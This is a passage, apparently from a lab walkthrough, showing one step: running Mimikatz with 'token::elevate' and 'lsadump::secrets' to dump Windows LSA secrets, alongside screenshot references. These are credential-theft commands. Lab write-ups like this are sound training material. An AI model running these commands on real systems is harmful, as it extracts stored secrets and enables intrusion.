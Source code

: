 		![task3-auth](./images/task3-auth.png)
	
	* Use Mimikatz to dump the LSASecrets

		```
		C:\Tools\mimikatz_trunk\x64\mimikatz.exe

		token::elevate
		lsadump::secrets
		```

		![task3-secrets](./images/task3-secrets.png)

